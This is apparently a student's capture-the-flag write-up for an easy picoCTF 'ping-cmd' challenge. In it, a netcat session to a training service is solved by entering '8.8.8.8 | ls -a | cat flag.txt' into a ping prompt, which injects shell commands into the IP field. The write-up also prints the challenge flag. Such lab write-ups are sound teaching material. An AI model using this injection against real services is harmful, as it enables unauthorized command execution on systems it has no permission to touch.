


# ping-cmd (General Skills, Easy): picoCTF 2026

| Field      | Value |
|------------|-------|
| Event      | picoCTF 2026 |
| Category   | General Skills, Easy |
| Points     | N/A |
| Solves     | 13,734 |
| Author     | Yahaya Meddy |
| Solved by  | Myself solo |
| Status     | Solved |

## TL;DR
Think creatively. Use piping “|” shell command.

## Challenge

- Service: `CyLab Security Academy challenge library` 

## First look
Do some Netcat commands on my kali Linux

```
nc chatelaine.cylabacademy.net 24633
```

## Dead ends
- Tweaking some nc options command to hopefully get a flag somehow. Dead end because it’s actually a backend shell command. 

## Solution
### Step 1: Recognizing that it’s a shell command
Actually, I know it’s a shell command because I peeked at hints lol =)

### Step 2: Thinking creatively that it is possible to do piping, I mean this “|”.

```{bash}
# This is an actual solve script in Kali Linux
$ nc chatelaine.cylabacademy.net 24633
Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8'): 8.8.8.8 | ls -a | cat flag.txt
```


## Flag
`academy{p1nG_c0mm@nd_3xpL0it_su33essFuL_7c0b936f}`  

## Lessons learned
- Thinking creatively out-of-the-box.
- “|” is so powerful.

## References
- NO CHATTING AI LLM (e.g. ChatGPT, Claude, DeepSeek)
- Thanks to quick googling for brainstorming ideas lol.
- Tysm for template write-up from https://ctf7.com/learn/how-to-write-a-ctf-writeup/#writeup-template
- You may check my Google Docs = https://docs.google.com/document/d/1Uj-SZKiVKzoVR4cmFTQPNL__A5Mv2I4injSf9QsGs9U/edit?usp=sharing

